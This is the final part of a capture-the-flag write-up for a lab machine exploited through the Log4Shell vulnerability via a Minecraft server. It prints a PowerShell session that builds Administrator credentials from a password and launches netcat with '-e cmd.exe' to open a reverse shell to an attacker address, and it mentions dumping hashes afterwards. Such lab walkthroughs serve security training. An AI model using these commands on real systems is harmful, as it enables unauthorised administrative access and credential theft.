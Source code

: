 ```plaintext
PS C:\temp> ls
ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/13/2024   1:50 AM          59392 nc.exe                                                                


PS C:\temp> $secpasswd = ConvertTo-SecureString "<Password>" -AsPlainText -Force
$secpasswd = ConvertTo-SecureString "s67u84zKq8IXw" -AsPlainText -Force
PS C:\temp> $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd)
PS C:\temp> Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.14.122 4444 -e cmd.exe" -Credential $mycreds
Start-Process -FilePath powershell.exe -argumentlist "C:\temp\nc.exe 10.10.14.122 4444 -e cmd.exe" -Credential $mycreds
PS C:\temp> 
```

>On the attacker machine, we successfully get an administrative reverse shell, which can be further exploited to get a meterpreter shell, dump hashes navigate to the user administrator directory to retrieve the root flag!

This machine presented a moderate challenge, partly due to the intermittent disconnects from the Minecraft server. Despite these setbacks, I thoroughly enjoyed the process of exploiting the CVE-2021-44228 vulnerability and navigating through various scripts and tools. The experience was engaging and rewarding, culminating in the successful retrieval of the root flag.
